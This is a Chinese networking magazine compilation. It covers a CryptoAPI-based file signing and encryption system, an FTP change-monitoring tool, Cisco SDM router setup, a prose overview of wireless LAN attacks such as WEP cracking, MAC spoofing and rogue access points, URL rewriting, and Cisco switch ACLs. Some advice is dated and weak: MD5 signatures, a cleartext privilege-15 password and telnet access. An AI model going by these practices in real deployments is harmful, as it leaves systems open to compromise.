公钥加密技术中，加密和解密使用不同的密钥，每个用户有一对密钥，公钥KU和私钥KR，KU可以公开，KR由用户自己保存。非对称密钥加密技术常采用RSA算法。RSA算法的特点有以下4点。

- 由用户A的公钥KUa加密的信息只能通过A的私钥KRa来解密，并且用A的私钥KRa加密的信息只能用公钥KUa解密。
- 加密私钥不能同时用于解密。
- 在计算机上很容易产生成对的公钥和私钥。
- 若攻击者仅仅知道KU（或KR），则在计算上推出相应的KR（或KU）是不可行的。

##### 数字签名技术原理

数字签名技术是在传输的数据信息里附加一些特定的数据或对数据信息作密码变换，这种附加数据或密码变换使接收方能确认信息的真正来源和完整性，并且发送方事后不能否认发送的信息，而接收方或非法者不能伪造或篡改发送方的信息。数字签名类似于手工签名，是手工签名的数字实现。

下面是本系统利用公钥加密体制进行数字签名的具体实现过程。

#### 1. 生成信息摘要

发送方对要发送的信息进行Hash运算，形成信息摘要。Hash算法是一类符合特殊要求的散列函数，这些特殊函数对输入的信息数据没有长度限制，对任何输入的数据都能生成固定长度的摘要输出；由输入信息能方便地算出摘要，而难以对指定的摘要生成原来的输入信息，并且输入两次不同的信息难以生成相同的摘要。

#### 2. 加密摘要

发送方用自己的私钥对生成的信息摘要加密，形成原始信息的数字签名。

#### 3. 发送信息

发送方将要发送的原始信息和数字签名一起加密后，形成最终传输形式的密文发送给接收方。

#### 4. 接收方验证签名

接收方收到密文后先对其解密，分离出信息和数字签名后，对接收到的信息作Hash运算，得到原文的摘要，再用发送方的公钥解密接收的数字签名，然后用自己计算出的信息摘要与解密得到的信息摘要进行比较：如果相同，说明信息是真实的；如果不相同，说明信息是不可信的或被篡改的。发送方不可否认所发送的信息，因为其他人无法伪造他的数字签名（除非其私钥被窃取）。过程如图1所示。


##### 局域网密码系统的管理

在局域网中，文件加密和数字签名系统的管理主要是对服务器公钥环的管理。管理员应该是一个有最终仲裁权限的管理小组，他们主要的工作有以下几个方面。

- **1. 公钥的申请登记**

  当新用户加入时，用户把他的公钥和用户信息以除本系统以外的其他安全方式递交给管理员。管理员确认后，把用户密钥和资料加入到公钥环中。

- **2. 密钥的备份和恢复**

  为了系统的稳定和安全，管理员应定期对公钥环进行备份，在系统出错或崩溃时负责数据的恢复。

- **3. 公钥环的更新**

  当用户的私钥发生泄密或丢失不能继续使用时，需要以其他方式通知管理员，并可重新向管理员申请加入新的公钥。管理员负责更新公钥环：将原来的公钥移出并转移到相关数据库中，以及向公钥环添加新的用户公钥。

- **4. 公钥的吊销**

  当用户要离开单位或其他原因不再使用本系统时，管理员负责将其公钥从公钥环中清除并转移到相关数据库中保存。

##### 用户在局域网中使用系统的具体步骤

- **1.** 当用户第一次使用该系统时，首先要安装客户端软件，利用客户端软件生成用户的公钥和私钥。私钥存储在用户计算机内部。然后用户把他的公钥和用户信息以除本系统以外的其他安全方式递交给管理员。管理员收到信息后，根据其他手段确认用户资料正确后，把用户的公钥和资料加入到公钥环中，并用用户公钥把确认信息加密后发送给用户。用户得到确认信息后即可使用文件加密和数字签名。

- **2.** 当用户之间传送带有数字签名的文件时，发送方利用客户端软件产生要发送文件的数字签名，并把文件和数字签名一起发送给接收方。接收方收到文件和数字签名后，利用客户端软件对数字签名进行验证。验证时客户端软件首先向服务器端索取发送方的公钥，利用发送方公钥对数据签名进行验证。如果验证通过，接收方可以把文件和数字签名保存；如果所传送文件在传送中出现错误或被篡改，则数字签名将不能通过验证。

- **3.** 当用户之间传送加密文件时，发送方首先利用客户端软件对文件加密。加密时客户端软件随机产生一个密钥，以对称加密算法用该密钥对文件进行加密，然后向服务器索取接收方的公钥，用接收方公钥对加密文件所用的随机密钥进行加密，并把加密后的随机密钥一起写入到文件中。发送方把加密后的文件发送给接收方，接收方收到文件后用自己的私钥可以对文件解密。

##### 局域网中文件加密和数字签名的具体实现

在局域网中实现文件加密和数字签名采用 C/S（服务器与客户端）模式。服务器端有一个数据库服务器，负责存取包括各个用户的用户信息以及用户公钥有效时间等信息的公钥环。该数据库服务器由专门数据库管理员负责管理维护。

在客户端，我们利用 Microsoft 公司提供的加密接口函数 Crypto API 编写了客户端程序，客户端程序主要由以下几个功能部分组成：

- **1. 生成用户的密钥对（公钥和私钥）**

```c
// 获取或创建默认的密钥容器句柄
if (!CryptAcquireContext(&hProv, NULL, MS_DEF_PROV, PROV_RSA_FULL, 0)) {
    // 如果没有缺省的密钥库，则建立缺省的密钥库
    CryptAcquireContext(&hProv, NULL, MS_DEF_PROV, PROV_RSA_FULL, CRYPT_NEWKEYSET);
}
// 获取数字签名密钥对句柄
if (!CryptGetUserKey(hProv, AT_SIGNATURE, &hKey)) {
    if (GetLastError() == NTE_NO_KEY) {
        // 如果没有数字签名密钥，则产生数字签名密钥对
        CryptGenKey(hProv, AT_SIGNATURE, CRYPT_EXPORTABLE, &hKey);
    }
}
```

- **2. 对文件进行数字签名**

```c
CryptCreateHash(hProv, CALG_MD5, 0, 0, &hHash);
// 建立 Hash 句柄，对源文件作 Hash 运算
do {
    // 在源文件中读取缓冲区字节
    dwCount = fread(pbBuffer, 1, dwBufferLen, hSourceFile);
    // 把数据加入到 Hash 中
    CryptHashData(hHash, pbBuffer, dwCount, 0);
} while (!feof(hSourceFile));

// 对 Hash 签名，确定签名的长度
CryptSignHash(hHash, AT_SIGNATURE, NULL, 0, NULL, &dwSignatureLen);
pbSignature = (BYTE*)malloc(dwSignatureLen);
// 利用签名私钥对 Hash 签名
CryptSignHash(hHash, AT_SIGNATURE, szDescription, 0, pbSignature, &dwSignatureLen);
// 把数字签名写入（附加到）文件中
hSignatureFile = fopen(szSignatureFile, "wb");
fwrite(pbSignature, 1, dwSignatureLen, hSignatureFile);
```

- **3. 对接收到的文件和数字签名进行验证**

```c
CryptCreateHash(hProv, CALG_MD5, 0, 0, &hHash);
// 建立 Hash 句柄，对源文件作 Hash 运算
do {
    // 在源文件中读取缓冲区字节
    dwCount = fread(pbBuffer, 1, dwBufferLen, hSourceFile);
    // 把数据加入到 Hash 中
    CryptHashData(hHash, pbBuffer, dwCount, 0);
} while (!feof(hSourceFile));

// 导入发送方公钥并验证签名
CryptImportKey(hProv, pbKeyBlob, dwKeyBlobLen, 0, 0, &hSigPublicKey);
if (!CryptVerifySignature(hHash, pbSignature, dwSignatureLen, hSigPublicKey, szDescription, 0)) {
    if (GetLastError() == NTE_BAD_SIGNATURE)
        printf("数字签名无效!\n");
} else {
    printf("数字签名有效!\n");
}
```

```c
CryptGetUserKey(hProv, AT_SIGNATURE, &hKey);
CryptExportKey(hKey, hExchKey, PUBLICKEYBLOB, 0, NULL, &dwKeyBlobLen);
pbKeyBlob = new BYTE[dwKeyBlobLen + 1];
CryptExportKey(hKey, hExchKey, PUBLICKEYBLOB, 0, pbKeyBlob, &dwKeyBlobLen);
fwrite(&dwKeyBlobLen, sizeof(DWORD), 1, hDestination);
fwrite(pbKeyBlob, 1, dwKeyBlobLen, hDestination);
```

- **4. 把公开密钥输出到文件**

- **5. 对文件进行加密**

```c
// 导入接收方的公开密钥
CryptImportKey(hProv, pbKeyBlob, dwKeyBlobLen, 0, 0, &hSigPubKey);
// 产生一个随机密钥，并把随机密钥用接收方公钥加密后写入文件
```

```c
CryptGenKey(hProv, ENCRYPT_ALGORITHM, CRYPT_EXPORTABLE, &hKey);
CryptExportKey(hKey, hSignPubKey, SIMPLEBLOB, 0, pbKeyBlob, &dwKeyBlobLen);
fwrite(&dwKeyBlobLen, sizeof(DWORD), 1, hDestination);
fwrite(pbKeyBlob, 1, dwKeyBlobLen, hDestination);
do {
    dwCount = fread(pbBuffer, 1, dwBlockLen, hSource);
    CryptEncrypt(hKey, 0, eof, 0, pbBuffer, &dwCount, dwBufferLen);
    fwrite(pbBuffer, 1, dwCount, hDestination);
} while (!feof(hSource));
```

- **6. 读取用来加密文件的随机密钥数据，并用接收方的私钥把随机密钥解密后导入**

```c
fread(pbKeyBlob, 1, dwKeyBlobLen, hSource);
CryptImportKey(hProv, pbKeyBlob, dwKeyBlobLen, hSignKey, 0, &hKey);
do {
    dwCount = fread(pbBuffer, 1, dwBlockLen, hSource);
    CryptDecrypt(hKey, 0, eof, 0, pbBuffer, &dwCount);
    fwrite(pbBuffer, 1, dwCount, hDestination);
} while (!feof(hSource));
```

##### 结语

公钥密码体制和数字签名作为信息安全的一项重要技术越来越得到广泛的应用。目前基于以上所述内容的系统已经运用于公司内部传递机密票据等方面，并准备尝试将此系统逐步运用到公司例如机密票据、报表或文件等其他信息传递方面中。我们通过建立企业内部局域网使用的文件加密和数字签名系统，实现了企业内部信息的安全传输，同时保证了传输信息的完整性和不可否认性。

刘流：FTP服务在网络上应用十分广泛，面对存储在FTP服务器上大量文件，如果能及时发现文件变动并快速查找需要的文件，不仅可以提高FTP服务器维护效率，还能有效增强其安全性。特别是对网站管理而言，根据特定类型文件（例如 ASP 文件）的变化分析，能够迅速查出潜入的木马程序。

- 适合读者：网管、网络爱好者、站长
- 前置知识：无

## FTP搜索也疯狂

文／图 郭建伟


同一般的FTP工具软件相比，FTPUpdateSearcher堪称是FTP服务器的“极速搜索客”。它可以使网管人员对FTP服务器上的文件变动情况了然于心。

## 管理FTP服务器

在FTPUpdateSearcher主窗口中按下 Insert 键，打开FTP服务器设置窗口，如图1所示。

在“Server Settings”面板中输入FTP服务器的名称、地址、用户名和密码、端口等参数，在“Connection type”列表中选择连接类型（包括正常连接和SSL/TLS安全连接），在“Using proxy-server”列表中选择代理服务器（事先应在菜单“Option”→“Proxy-server Settings”中添加代理服务器），点击确定按钮保存设置。此外，FTPUpdateSearcher还能自动……


图1


图3

扫描本网段中的FTP服务器，点击菜单“FTP-Servers”→“FTP Servers Search Wizard”在操作向导帮助下，依次设置扫描地址的起始范围、主机扫描延时、是否探测活动主机、自动搜索的周期等参数。一般说来，采用默认值即可。

在FTPUpdateSearcher主窗口按下 Ctrl+F4，打开FTP服务器搜索面板，点击工具栏上的开始按钮，FTPUpdateSearcher就将发现的FTP服务器添加到列表中。当然，搜索到的FTP服务器其默认设置是匿名登录，可以在列表中选中该服务器名称，按下 ALT+Enter 键打开属性设置窗口，进一步调整配置参数。

## 深入探测FTP文件变动

添加完FTP服务器后，当每次使用之前，最好先检测其当前的状态。在FTPUpdateSearcher主窗口中按下 F6 键，FTPUpdateSearcher开始对列表中的所有FTP服务器进行探测，如果在列表的 Status 列中显示“Available”，表明该FTP服务器处于可用状态，否则说明其不可用。在选中的FTP服务器项的右键菜单上点击“Scan Server”项，FTPUpdateSearcher对指定FTP服务器进行扫描，检测其存储的文件是否发生了改变。对于新添加的FTP服务器，建议连续进行两次扫描，在列表的 Status 栏中显示“No Updates”，这样就相当于完成了初始化操作。当以后需要探测文件的变化状态时，选中列表中的FTP服务器，再次进行扫描操作，如果在列表的 Status 栏中显示“Founds Changes”，如图2所示。


图2

说明指定FTP服务器上的文件发生了变动，例如对原文件进行了 Updates（更改）、Deleted（删除）、New（新建）等操作。在选中的FTP服务器项的右键菜单上点击“Updates List”项，打开文件变动报告窗口，如图3所示。

在文件列表中显示了所有发生变化的文件信息，并且在 Status 栏中显示变化的类型。如果发生改变的文件比较多，可以在“Show updates since”中设定日期和时间，便于过滤出在指定时间之后改变的文件。

在“File masks”中设定文件名（支持通配符），在“File size”中设定文件的尺寸。在“Search files”和“Search directories”面板中可以设置按照哪些变动类型来显示文件和文件夹（包括 New、Modified、Deleted 类型）。然后点击 Find 按钮，就能快速查询到符合条件的文件。如果勾选“Show directories tree”项，可以显示出FTP服务器上的文件目录层次，显示效果类似于Windows资源管理器。这样，查询改变的文件就更直观了。

此外，FTPUpdateSearcher还能定时扫描FTP文件变化情况。在选中的FTP服务器项的右键菜单上点击“Server Settings”项，在服务器设置窗口中打开“Schedule”面板，选中“Periodic scanning”项，在“Scan each X min”中设置扫描间隔时间（以分钟为单位）；或点击“Scheduled scanning”项，点击“Add”按钮，按照星期数设置自动扫描的开始时间、等待间隔、次数等内容。这样，预定时间一到，FTPUpdateSearcher就能自动检测FTP文件的变化情况。

## 快速搜索FTP文件

FTP服务器上常常堆满了文件，要想快速查询到自己需要的文件，使用一般的FTP工具软件几乎是很难办到的。在FTPUpdateSearcher主窗口的列表中选中合适的FTP服务器，在其右键菜单上点击“Find Files”项打开文件查找窗口，如图4所示。

在其中的“Server”列表中可以快速切换FTP服务器；在“File masks”中设定文件通配符；在“File size”中设定文件的尺寸；勾选“Search directory”项，表示搜索的范围包括每个文件夹。点击“Find”按钮执行搜索操作。符合条件的文件出现在文件列表中。选中合适的文件，在其右键菜单中点击“Download Files”项，在文件下载对话框中设置下载的方法（手动下载或自动下载）。


图4

若立即下载，在“File category”中选择“Download Files”，并指定保存路径，点击 OK 按钮即可下载选定的文件，甚至还能调控文件下载速度。在FTPUpdateSearcher主窗口点击菜单“Option”→“Download Settings”，在“Connection”面板中的“Connection type and speed”列表中可以选择下载速度，从14.4K Modem到LAN 100M等10种下载速度选项，如果选择“Other”项，可手工指定下载速度。

对于一名网管来说，有了此软件，你再也不用担心恶意黑客将木马程序安装在你不曾留意的角落了。喜欢的话就赶紧给自己的机器装一个吧！

适合读者：网络管理员、网络爱好者、Cisco工程师

前置知识：Cisco产品操作基础

## 利用SDM实现对Cisco系列路由器的可视化管理

文／卢东祥

##### 可视化管理


SDM（Security Device Manager）是Cisco公司提供的全新图形化路由器管理工具。SDM利用Web界面、Java技术和交互配置向导，使得用户无需了解Cisco命令行，即可轻松地完成IOS路由器的状态监控、安全审计和功能配置，甚至QoS、Easy VPN Server、IPS、DHCP Server、动态路由协议等令中级技术人员都头疼的配置任务，也可以利用SDM轻松而快捷地完成，配置逻辑严密、结构规范。Cisco公司推出此项功能真是令人振奋，本文就Cisco系列路由器实现SDM功能的配置方法进行探讨。

使用加密的HTTP连接及SSH v2协议，安全可靠。目前Cisco的大部分中低端路由器，包括8xx、17xx、26xx(XM)、36xx、37xx、72xx、73xx等型号都可以支持SDM，但不是所有IOS都支持SDM功能，12.2版以前的基本都不带此项功能，12.2版以后的大都可以使用SDM，具体情况如表1所示。

## SDM功能简介

Cisco SDM为我们提供一系列简单易用的向导，逐步引导网络新手快速配置路由器，而无需具备有关Cisco IOS软件CLI的知识。我们可使用SDM向导轻松地进行如下操作。

- 配置其他LAN和WAN连接
- 创建防火墙
- 配置VPN、Easy VPN和DMVPN连接及创建和管理数字证书
- 在路由器上执行安全审计及让SDM解决安全问题
- 配置基本路由
- 在路由器上创建“网络地址转换”（NAT）规则
- 创建服务质量（QoS）策略

使用向导创建基本配置后，可利用SDM编辑创建的配置。可通过编辑防火墙为网络创建防火墙策略，还可在路由器上配置和管理“入侵防御系统”（IPS），以防网络遭受攻击，并执行其他任务，如创建用户账户和创建路由器管理策略。

| 支持SDM的路由器型号 | 支持SDM的IOS |
|---|---|
| 831, 836, 837 | 12.2(13)ZH or later；12.3(2)XA or later；12.3(8)T或更新版本 |
| 1701, 1711, 1712 | 12.2(15)ZE or later；12.3(2)XA or later |
| 1710, 1721, 1751, 1751-v | 12.2(13)ZH or later；12.2(13)T3 or later |
| 1760, 1760-v | 12.3(2)T or later；12.3(1)M or later |
| 2610XM, 2611XM, 2620XM, 2621XM, 2650XM, 2651XM, 2691 | 12.2(1)T6 or later；12.3(1)M or later；12.3(2)T或更新版本 |
| 3620, 3640, 3640A, 3661, 3662 | 12.2(1)T6 or later；12.3(1)M or later；12.3(2)T或更新版本 |
| 3725, 3745 | 12.2(1)T6 or later；12.3(1)M or later；12.3(2)T或更新版本 |
| 7204VXR, 7206VXR, 7301 | 12.3(2)T or later；12.3(3)M及若干更新版本 |

表1

SDM程序既可以安装在PC上，也可以安装在路由器上。安装在PC上能节约路由器的内存，并且可以用它来管理其他支持SDM的路由器，但是由于IE默认是禁止网页访问本机资源的，我们需要先修改IE的安全设置。安装到路由器时基本安装大约需要4MB Flash空间，组件Cisco SDM Express（需要1.5MB Flash）只用于路由器的初始化配置，无须安装。本文是以SDM安装在路由器上为例子进行讲解。

## 支持SDM的设备

如果版本在 12.2 之前的 IOS，可以先删除旧版 IOS，下载新版 IOS 装载进路由器，具体操作如下：

```bash
Router# delete <old IOS image name>
Delete filename [<old IOS image name>] ? y
Delete flash:y? [confirm] n
Delete flash:y aborted!
Router# squeeze flash:
Router# copy tftp://<tftp server IP address>/<new IOS image name> flash:
Router# reload
```


图1

## 2. 加载SDM文件到路由器

SDM 文件大小在 4M 左右，在加载 SDM 文件之前先要检查 Flash 空间。

```bash
Router# copy tftp://<tftp server IP address>/sdm.tar flash:
Router# copy tftp://<tftp server IP address>/sdm.shtml flash:
Router# copy tftp://<tftp server IP address>/<configuration file name> flash:
Router# copy <configuration file name> start
```

## 3. 配置路由器以支持基于Web的应用程序

步骤1：使用以下 Cisco IOS 命令启用路由器的 HTTP/HTTPS 服务。

```bash
Router(config)#ip http server
Router(config)#ip http secure-server
Router(config)#ip http authentication local
```

如果路由器使用 IPSec IOS 映像，则将启用 HTTPS 服务。否则，仅启用 HTTP 服务。

步骤2：通过 15 级权限（启用权限）创建用户账户。

```bash
Router(config)#username <username> privilege 15 password 0 <password>
```

用要配置的用户名和密码替换 `<username>` 和 `<password>`。

步骤3：为本地登录和 15 级权限配置 SSH 和远程登录。

```bash
Router(config)#line vty 0 4
Router(config-line)#privilege level 15
Router(config-line)#login local
Router(config-line)#transport input telnet
Router(config-line)#transport input telnet ssh
Router(config-line)#exit
```

步骤4：（可选）启用本地登录以支持日志监控功能：

```bash
Router(config)#logging buffered 51200 warning
```

## 4. SDM的访问及应用

将 SDM 安装到路由器后，在 IE 中输入“http://路由器IP地址”，就可以开始使用 SDM 了。通过 SDM，我们可以一目了然地实时了解 CPU、内存利用率以及端口状态、VPN、防火墙、Log 等信息，如图1所示。

单击任意 SDM 窗口中的“帮助”按钮即可获取有关要执行任务的详细信息。而且 SDM 将自动保存对路由器运行配置的更改，并将运行配置保存到启动配置，图2为接口配置窗口。

通过 SDM 我们可以轻松实现安全审计功能。它能检查并引导你关闭 Finger、Pad、TCP&UDP Small Services、IP Source Route、SNMP 等不安全的功能，启用 Password Encryption、Banner 等功能，给 HTTP、VTY 加上源地址限制以加强路由器安全性……通过 SDM 能够配置的功能太多了：NTP、SNMP、DNS、AAA、NAT。图2中显示了一个应用到端口上的访问控制列表，这也是通过 SDM 进行配置的，下面是接口流量信息，如图3所示。


图2


图3

##### 结束语

作为三层设备，路由器是一种技术含量很高的网络设备，涉及到各种协议，技术面较广。熟练运用 SDM 管理各种路由器，及时处理各类突发故障，对维护网络的正常运转有着重要意义。本文仅就 Cisco 系列路由器开通 SDM 功能的方法进行介绍，对 Cisco 各系列路由器的类似问题，其具体操作也类似。SDM 下载地址为：http://www.cisco.com/cgi-bin/tablebuild.pl/sdm（需要 CCO 账号）。在安装 SDM 之前要求计算机预先安装 JRE 1.4.2_05，如果尚未安装，可以到 SUN 网站下载安装。

适合读者：安全爱好者  
前置知识：网络基础知识

#### 无线网络攻防

文/图 孙烟逐云（江苏大学信息安全系）


无线网络安全涵盖的方面非常多：从标准安全的角度来看有蓝牙、802.11x、CDMA、GSM 和 3G；从平台角度有 PDA、笔记本、手机、寻呼机、手持式 PC 等。本文从攻击者视角切入无线局域网（WLAN）攻防，先介绍无线网络拓扑、STA 与 AP、ad-hoc 与 infrastructure 两种模式，以及通过 AP 连接与点对点连接的差异。

SSID（Service Set Identifier）将无线局域网划分为多个子网。终端需配置对应 SSID 才能接入，但 SSID 易被探测，企业级安全不能仅依赖此机制。文中还提到可在 Windows XP 中查看附近无线网络与 AP，并可借助工具侦听流量以发现网络，随后给出校园网拓扑示意图。

无线网卡信号易受距离、遮挡和发射功率影响。可通过天线改善：全向天线适合点对多点中心台，定向天线增益高、方向性强，适合远距离点对点通信并提升抗干扰能力。文中讨论了 5dBi/8dBi 等增益选择及 DIY 天线思路。

无线网络存在独特安全风险：覆盖范围内终端可被接收，易出现窃听与干扰；黑客可通过 War Drive 寻找脆弱信号并发起攻击。无线网络还可能被用来绕过防火墙、实施未授权访问，且面临 DoS、插入、篡改等威胁，因此需要在常规安全措施基础上进一步加强 WLAN 防护。


### 1. 网络窃听

这已经不是什么新技术了，但是无线网络的出现，似乎将这个问题给放大了。比如说，以往窃听无线网络，必须得进行层层渗透，才能进入某个内网。但现在就不同了，假如我是想知道微软机密的攻击者，我会直接去硅谷微软总部门外进行监听。其实对于防范网络窃听，解决方法也非常简单：我们除了使用 WEP 外，还可以使用第三方的加密方案。

在抓包时，出了个小问题：Ethernet 无法使我的无线网卡在混杂模式下抓包，但是使用 AiroPeek 就可以，不知是何原因。如图2所示。


图2

### 2. WEP攻击

有线等效加密（Wired Equivalent Privacy, WEP）是一种符合 802.11b 标准的无线网络安全协议。它在无线数据发送时对数据进行加密，加密范围覆盖了所使用的任何数据。我们一定要使用它，但是必须强调它是基于密钥的，因此不要一直使用默认密钥。对于初次访问系统的个人用户，我们应当为其创建单独的 WEP 密钥。当然也不能认为有了 WEP 就万事大吉。如果一个加密系统具有算法或实现上的缺陷，那么密码也很容易被破解。WEP 就是典型的例子，原本很好的密码系统（RC4）却因为实现不佳，留下了很多的缺陷，导致 RC4 发挥不出应有的效率。要破解 WEP，只需要很短的时间。AirSnort 和 WEP Crack 是破解 WEP 的利器。

### 3. MAC欺骗与AP中间人欺骗

即使 AP 启用了 MAC 地址过滤，使未授权黑客的无线网卡不能连接 AP，这并不意味着能阻止黑客进行无线信号侦听。目前市场上绝大多数的无线网卡都能使用软件更改 MAC 地址，这使得伪装一个合法的 MAC 地址成为一件很容易的事情。

AP 中间人欺骗则是一种更为可怕的攻击方式。如果一个攻击者有台无线设备，并且它的信号强于真实 AP 的信号，那么目标将会连接到我们攻击者的 AP 中。一旦连接建立，后面的事情就不用多说了。解决这种攻击的通常做法是采用双向认证方法（即网络认证用户，同时用户也认证网络）和基于应用层的加密认证（如 HTTPS+WEB）。

### 4. 信号干扰

如果能直接砸了 AP 的话，这种攻击效果肯定是最佳的。由于 2.4GHz 的频率是向公众开放的，许多无线设备都可在这个范围内工作，因此 802.11b 无线网络的信号可以受到新型 2.4GHz 数字无绳电话的干扰。当然，也包括我们家中的微波炉。蓝牙也是一种无线通信的协议，同样可以通过 WLAN 的信号传输，在附近有蓝牙通信的情况下，无线信号强度会受到非常大的影响。如图3、图4所示（注意右下角的网络信号图示）。


图3


图4

### 5. 保卫无线网络

- 不为 AP 使用默认的用户名和密码。
- 将 AP 安装在安全的位置，要使物理接触 AP 比较困难。
- 使用第三方加密方案 WEP + IPSec 或 VPN。
- 修改默认的服务区标识符（SSID）。
- 设置 MAC 地址过滤。

以上是个人看法，权作抛砖引玉。笔者才疏学浅，由于学校装了无线网络所以顺带研究了一下其安全性，错误疏漏在所难免，希望各位读者能够不吝赐教。

适合读者：网络爱好者、网管、站长  
前置知识：无

#### 快速将动态网站转化为静态网站

文/小强

建过网站的人都知道，使用 ASP 构建的动态网站虽然在制作和维护上都比较容易，但其缺点也相当明显，那就是网站中的网页内容无法被搜索引擎大面积收录。从而减少了从搜索引擎或通过网站关键字来访问网站的机会，损失了一定的网站访问流量。

为了让使用 ASP 构建的动态网站也能够像静态网站一样被搜索引擎大面积收录网站网页内容，我们可以使用 LinkFreeze 并花一分钟的时间来把你的动态网站改造成静态网站。LinkFreeze 提供 45 天的试用期，支持 IIS 4、IIS 5、IIS 5.1、IIS 6 等版本。

##### 步骤一

安装源程序，并且安装 ISAPI 驱动（光盘均有收录）。因过程简单，这里不再赘述。

##### 步骤二

软件安装后，进入 IIS 管理器。在这里，右键单击想要改造成静态网站的网站名，然后从弹出的菜单中选择“属性”命令，进入网站属性设置对话框，如图1所示。


##### 步骤三

在网站属性对话框内，我们可以发现一个新增的名为“LinkFreeze”的标签页，点击它，进入设置窗口，如图2所示。

##### 步骤四

在 LinkFreeze 设置窗口内，单击“Enable LinkFreeze”按钮。因为我们使用的是试用版，所以这里会弹出一个注册窗口，直接单击“Run Trial”按钮即可。


接着我们在窗口的“Scheme select”处选择一种动态网页转换成静态网页后网址的表现形式，这里共有 12 种样式可供选择，在窗口的黄色区域内可以看到网址转换后的效果，如图3所示。选中一个你喜欢的样式后，单击窗口中的“Activate Scheme”按钮保存所做的修改，最后单击“确定”按钮，退出网站属性设置窗口。


经过以上设置后，我们的网站就已经完全变成一个静态网站了。原来像“http://www.styleshow.net/class.asp?classid=2”这样的动态网页，现在已经变成类似“http://www.styleshow.net/class~classid~21.asp”的静态网页了。经过修改后的网站，我们既可以使用动态网站的网址来访问，也可以使用新网址来访问。经过一段时间后，在搜索引擎中使用 site 命令就可以查看到我们的网页已经大量被收录到搜索引擎中了，如图4所示。


最后需要提醒大家的是，确定完一种样式后，以后就尽量不要再做改变，因为当我们在网站属性窗口中按下“确定”按钮后，我们的网站就已经变成一个静态网站了。如果经常改变，那么搜索引擎原来收录的网页地址就会失效，需要重新收录。

**刘流：**交换机是在物理上网络中最脆弱的地方。因而加强对交换机的访问控制，对保护主机系统和应用系统以及整个网络的安全都有重要意义。Cisco 系列交换机在交换机的访问控制方面提供了在交换机中集成安全认证、ACL（Access Control List，访问控制列表）等多种方法和途径，利用它，我们可以很方便地对园区网络进行访问控制。

**适合读者：**网络爱好者，网络管理员  
**前置知识：**Cisco 设备使用基础

## 基于Cisco交换机园区网络的访问控制


### 802.1x安全认证

在传统的局域网环境中，只要有物理连接端口，未经授权的网络设备就可以接入局域网，或者未经授权的用户可以通过连接到局域网的设备进入网络。这样就给一些企业造成了潜在的安全威胁。另外在学校以及智能小区的网络中，由于涉及网络计费，所以验证用户接入的合法性也显得非常重要。IEEE 802.1x 正是解决此类问题的良药，目前它已经被集成到二层智能交换机中，完成对用户的接入安全审核。

> 802.1x 协议是符合 IEEE 802 协议集的局域网接入控制协议，其全称为基于端口的访问控制协议。它能够在利用 IEEE 802 局域网优势的基础上，提供一种对连接到局域网的用户进行认证和授权的手段，达到了接受合法用户接入、保护网络安全的目的。802.1x 协议与 LAN 是无缝融合的。

802.1x 利用了交换 LAN 架构的物理特性，实现了 LAN 端口上的设备认证。在认证过程中，LAN 端口要么充当认证者，要么扮演请求者。在作为认证者时，LAN 端口在需要用户通过该端口接入相应服务之前，首先进行认证，如若认证失败则不允许接入；在作为请求者时，LAN 端口则负责向认证服务器提交接入服务申请。基于端口的 MAC 锁定只允许信任的 MAC 地址向网络中发送数据，来自任何“不信任”设备的数据流会被自动丢弃，从而确保最大限度的安全性。

最初由无线局域网发展起来的认证技术 802.1x，虽然目前标准还不十分统一，但其通过以太网帧来承载高层认证信息的概念还是得到了许多用户的认可。加之微软的 Windows XP 中已集成了 802.1x 客户端，使得 802.1x 接入认证越来越受到各方关注。越来越多的厂商开始提供支持 802.1x 的交换机产品。

- 客户端。一般安装在用户的工作站上，当用户有上网需求时，激活客户端程序，输入必要的用户名和口令，客户端程序将会发出连接请求。
- 认证系统。在以太网系统中指认证交换机，其主要作用是完成用户认证信息的上传、下达工作，并根据认证结果打开或关闭端口。
- 认证服务器。通过检验客户端发送来的身份标识（用户名和口令）来判别用户是否有权使用网络系统提供的网络服务，并根据认证结果向交换机发出打开或保持端口关闭的状态。

##### 访问控制列表

安全交换机采用了访问控制列表 ACL 来实现包过滤防火墙的安全功能，增强安全防范能力。访问控制列表以前只在核心路由器才能使用，现在已经扩展到三层交换机和二层交换机上。在安全交换机中，访问控制过滤措施可以基于源/目标交换槽、端口、源/目标 VLAN、源/目标 IP、TCP/UDP 端口、ICMP 类型或 MAC 地址来实现。访问控制列表大致可以分为标准型（Standard）和扩展型（Extended）。标准访问控制列表（编号范围 0-99 或 1300-1999）主要根据数据包的源地址进行过滤；而扩展型访问控制列表（编号范围 100-199 或 2000-2699）则增强了功能和灵活性。除了可以根据源地址和目标地址进行过滤外，还可以根据协议端口过滤，甚至可以利用扩展型访问控制列表的选项启用许多附加功能。

#### 1. 标准IP ACL的命令格式

```bash
ACCESS-LIST ACCESS-LIST-NUMBER {DENY|PERMIT} {SOURCE{source-wildcard}|ANY}
```

其中 ACCESS-LIST-NUMBER 是标准 IP ACL 的号码，范围在 1～99 之间，可以使用这个范围之内的任意号码。ACL 号相同的所有 ACL 形成一个组。下一个关键字 DENY|PERMIT 指出该访问控制列表是允许还是拒绝数据包。最后，可以选择主机或网络的源地址，或者使用关键字 ANY。

要过滤某个主机，需要输入该主机的主机名和 IP 地址；要过滤某个网络，则需要输入该网络号，后面跟上通配符掩码；要过滤所有的网络和主机，则需要使用关键字 ANY。这里，通配符掩码与源地址或目标地址一起来定义要过滤的网络范围。

IP 访问控制组语句：定义好了 IP ACL 语句后，需要将 IP 访问控制列表应用到具体接口上。首先进入路由器某个接口的接口配置模式，如 `interface E0/0`，接下来输入 IP 访问控制组语句：

```bash
IP ACCESS-GROUP access-list-number {IN|OUT}
```

其中，ACCESS-LIST-NUMBER 是在前一步中定义的 IP 访问控制列表的表号，关键字 IN|OUT 表示对流入还是流出（也称为入站、出站）交换机（路由器）的数据包进行检查。

### 2. 扩展IP ACL的命令格式

```bash
ACCESS-LIST access-list-number {DENY|PERMIT}
protocol source source-wildcard destination destination-wildcard option
```

ACCESS-LIST-NUMBER 是扩展 IP ACL 的号码，范围在 100–199 之间。DENY|PERMIT 指定允许或拒绝数据包；Protocol 指定过滤协议（如 TCP、UDP、ICMP、IP 等）；随后可指定源地址、目标地址及通配符，或使用关键字 ANY。

## 虚拟局域网和VLAN访问控制列表（VLAN ACL）

虚拟局域网是安全交换机必不可少的功能。VLAN 可以在二层或三层交换机上实现广播域划分，把网络分成独立区域，并控制区域间通信。VLAN 可跨越多个交换机，支持基于端口、MAC 地址、IP 地址等方式划分，并可限制不同 VLAN 间的非授权访问。

